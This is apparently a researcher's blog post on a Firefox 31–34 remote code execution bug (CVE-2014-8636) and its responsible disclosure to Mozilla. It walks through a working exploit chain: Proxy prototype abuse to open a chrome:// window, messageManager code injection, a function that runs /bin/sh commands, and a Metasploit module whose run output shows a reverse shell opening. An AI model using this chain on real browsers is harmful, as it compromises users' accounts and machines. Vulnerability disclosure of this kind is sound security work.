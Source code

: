 ```yaml
---
layout: post
title: "Adventures in Browser Exploitation: Firefox 31 to 34 RCE"
---
```


A few months ago, I was testing some Javascript code in Firefox involving Proxies. Proxies are a neat ECMAScript 6 feature that Firefox has had implemented for some time now. Proxy objects allow transparent interception of Javascript's normal get-/set-property pattern:

    var x = {};
    var p = Proxy(x, {
      get: function() {
        console.log('getter called!');
        return 'intercepted';
      },
      set: function() {
        console.log('setter called!');
      }
    });

    console.log(p.foo);
    p.bar = 1;

When run, the above code will print:

    > getter called!
    > intercepted
    > setter called!

This is very useful to Javascript programmers as it allows for the implementation of the Ruby-style `method_missing` catch-all method. However, there are security implications; the W3C spec often requires objects from untrusted Javascript to be passed to privileged native code. Getters and setters can allow unprivileged code to run in unexpected ways *inside* of the privileged native code itself, at which point security checks can start to break. One example of this is geohot's [2014 Chrome ArrayBuffer memory corruption bug](https://code.google.com/p/chromium/issues/detail?id=351787), which tricked native code operating on the buffer by defining a dynamic getter method on the ArrayBuffer's `length` property (there is a good writeup [here](http://researchcenter.paloaltonetworks.com/2014/12/google-chrome-exploitation-case-study/)).

So the presence of Proxy objects in Firefox mainstream warrants some investigation. After playing with the implementation, some problems were apparent in how privileged code would interact with Proxy objects that were acting as the `prototype` of another object. For example, the following line would hang the browser indefinitely:

    document.__proto__ = Proxy.create({getPropertyDescriptor:function(){ while(1) {} }});

I played with it some more but could not find a way to abuse the problem further. I reported this to Mozilla as bug `1120261`, hoping that someone would investigate. After some back-and-forth I found out that the problem was already fixed in the 35.0 branch, so I put the issue out of my mind.

### The breakthrough

A thought struck one day, perhaps the getter is being called back in a different environment. I decided to test this theory by attempting to open a window with chrome privileges: such an operation should not be permitted by unprivileged code. I gave it a shot:

    var props = {};
    props['has'] = function(){
      var chromeWin = open("chrome://browser/content/browser.xul", "x")();
    };

    document.__proto__ = Proxy.create(props)

I loaded the page and an alert for "attempting to open a popup window" appeared. This was a good sign, as it meant the `chrome://` URL was being allowed to load, and was stopped only by the popup blocker. Which meant... clicking anywhere on the page opened a `chrome`-privileged URL.

### What is `chrome://`?

Let's back up a bit. Firefox, like many other browsers, has a notion of *privileged zones*: different URI schemes have different powers. Chromium does this too (`chrome://downloads`), and Safari to some extent (`file://` URLs). However, Firefox's `chrome://` scheme is rather powerful - the Javascript executing under an origin with a scheme of `chrome://` has the full privileges of the browser. In the presence of the right vulnerability, attackers can use this to get a fully-working shell on the user's machine.

If you want to test this, open the Developer Console (meta-alt-i) and browse to `chrome://browser/content/browser.xul`. Run the following code (linux/osx only):

    function runCmd(cmd) {
        var process = Components.classes["@mozilla.org/process/util;1"]
                  .createInstance(Components.interfaces.nsIProcess);
        var sh = Components.classes["@mozilla.org/file/local;1"]
                 .createInstance(Components.interfaces.nsILocalFile);
        sh.initWithPath("/bin/sh");
        process.init(sh);
        var args = ["-c", cmd];
        process.run(true, args, args.length);
    }

    runCmd("touch /tmp/owned");

You should have a file in `/tmp/owned`.

So if an attacker can find a way to inject code into this window, like we did with the Developer Console, your entire user account is compromised.

### Injecting code

Gaining a reference to a `chrome://` window is only half the battle. [Same Origin Policy](http://en.wikipedia.org/wiki/Same-origin_policy) prevents `attacker.com` from interacting with the code in `chrome://browser`, so we will need to find a way around this. Here I got really lucky; I tried a technique I had used when implementing our [22.0-27.0 WebIDL exploit](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/multi/browser/firefox_webidl_injection.rb).

Here's the technique: by providing the `chrome` option to `open()`, when `open` is called from a chrome-privileged docshell, the provided URL is loaded as the top-level "frame" of the new browser window; that is, there is no skin or interface document that encapsulates our document. A top-level frame has a `messageManager` property, which is accessible to same-origin code running in other `chrome` docshells:

    // abuse vulnerability to open window in chrome://
    var c = new mozRTCPeerConnection;
    c.createOffer(function(){},function(){
      var w = window.open('chrome://browser/content/browser.xul', 'top', 'chrome');

      // we can now reference the `messageManager` property of the window's parent
      alert(w.parent.messageManager)
    });

[MessageManager](https://developer.mozilla.org/en-US/Firefox/Multiprocess_Firefox/The_message_manager) is a privileged Firefox API for sending messages between processes. One useful detail is that it allows injecting Javascript code into the process remotely using the `loadFrameScript` function.

### Gaining RCE

From here, gaining remote code execution is trivial, thanks to the Firefox privileged payloads included in Metasploit. Just include the `Msf::Exploit::Remote::FirefoxPrivilegeEscalation` mixin, and the `run_payload` method will return a configured piece of Javascript code that will call Firefox's XPCOM APIs to spawn a reverse or bind shell on the target. JSON is used here to avoid encoding issues:

    # Metasploit module (ruby code)
    js_payload = run_payload
    js = %Q|
        var payload = #{JSON.unparse({code: js_payload})};
        injectIntoChrome(payload.code);
    |
    send_response_html(cli, "<script>#{js}</script>")

The exploit is available as part of the Metasploit framework, under the module name `exploits/multi/browser/firefox_proxy_prototype`. Here is what it looks like to use:

    msf> use exploit/multi/browser/firefox_proxy_prototype
    msf> set LHOST <YOUR-EXTERNAL-IP>
    msf> set SRVHOST 0.0.0.0
    msf> run -j
    # User browses to URL...
    msf>
    [*] Command shell session 1 opened (10.10.9.1:4444 -> 10.10.9.1:65031) at 2015-02-02 17:03:49 -0600
    msf exploit(firefox_proxy_prototype) > sessions -i 1
    [*] Starting interaction with 1...
    ls /
    bin
    boot
    cdrom
    dev
    .. etc ..

### Timeline

- Jan 11, 2015: Originally reported to Mozilla as a low-severity DoS, which turned out to be already patched in trunk
- Jan 13, 2015: Firefox 35.0 shipped with patch
- Jan 20, 2015: RCE implications discovered and disclosed to Mozilla
- Feb 04, 2015: Disclosure to CERT/CC
- Feb 13, 2015: Mozilla updates their [original security advisory](CVE-2014-8636) to note possibility of RCE
- Mar 23, 2015: Public disclosure

All-in-all I was impressed with Mozilla's response. Plus they sent me a bug bounty, for discovering an RCE exploitation vector of *an already-patched bug*. Nice.
